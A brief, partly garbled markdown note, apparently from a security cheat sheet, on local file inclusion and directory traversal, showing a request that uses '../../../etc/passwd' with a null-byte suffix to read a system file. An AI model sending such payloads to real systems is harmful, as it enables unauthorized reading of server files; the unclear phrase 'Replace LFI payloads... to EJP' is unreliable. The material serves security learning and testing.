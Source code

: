 # LFI
### Directory traversal | File path traversal
Replace LFI payloads:

%00index.html
to
EJP:
```bash
/image?filename=25.jpg
```

```bash
/image?filename=../../../etc/passwd%00.png
```
